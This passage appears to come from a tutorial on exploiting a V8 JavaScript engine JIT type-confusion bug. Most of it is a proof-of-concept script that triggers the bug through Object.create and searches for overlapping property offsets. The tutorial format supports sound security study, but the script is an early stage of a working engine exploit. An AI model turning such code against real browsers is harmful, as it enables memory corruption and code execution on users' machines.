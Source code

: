 Now that we have this code and understand how it works, we can update our proof of concept script to include these new functions, trigger the bug, and then print the values for both the array and dictionary. Our updated script will now look like so:

```js
// Create object with one line and 32 out-of-line properties
function makeObj() {
    let obj = {inline: 1234};
    for (let i = 1; i < 32; i++) {
        Object.defineProperty(obj, 'p' + i, {
            writable: true,
            value: -i
        });
    }
    return obj;
}

// Find a pair of properties where p1 is stored at the same offset
// in the FixedArray as p2 is in the NameDictionary
function findOverlappingProperties() {
    // Create an array of all 32 property names such as p1..p32
    let pNames = [];
    for (let i = 0; i < 32; i++) {
        pNames[i] = 'p' + i;
    }

    // Create eval of our vuln function that will generate code during runtime
    eval(`
    function vuln(obj) {
      // Access Property inline of obj, forcing a CheckMap operation
      obj.inline;
      // Force a Map Transition via our side-effect
      this.Object.create(obj);
      // Trigger our type-confusion by accessing out-of-bound properties
      ${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
      return [${pNames.join(', ')}];
    }
  `)

    // JIT code to trigger vuln
    for (let i = 0; i < 10000; i++) {
        let res = vuln(makeObj());
        // Print FixedArray when i=1 and Dictionary when i=9999
        if (i == 1 || i == 9999) {
            print(res);
        }
    }
}

print("[+] Finding Overlapping Properties");
findOverlappingProperties();
```
